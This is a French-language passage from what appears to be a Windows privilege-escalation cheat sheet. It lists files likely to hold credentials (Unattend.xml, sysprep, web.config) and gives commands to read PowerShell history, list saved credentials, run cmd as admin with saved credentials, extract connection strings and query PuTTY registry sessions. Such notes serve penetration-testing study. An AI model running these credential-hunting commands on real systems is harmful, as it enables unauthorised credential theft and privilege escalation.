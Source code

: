 ***

### **13. Emplacements intéressants:**

C:\Unattend.xml&#x20;

C:\Windows\Panther\Unattend.xml&#x20;

C:\Windows\Panther\Unattend\Unattend.xml&#x20;

C:\Windows\system32\sysprep.inf&#x20;

C:\Windows\system32\sysprep\sysprep.xml

**Historique Powershell**

cmd:

```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

Powershell:

```
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

**Informations d'identification Windows enregistrées**

```
cmdkey /list
```

```
runas /savecred /user:admin cmd.exe
```

**Configuration IIS (webadmin)**

C:\inetpub\wwwroot\web.config

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

**Récupérer les identifiants à partir du logiciel : PuTTY**

```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

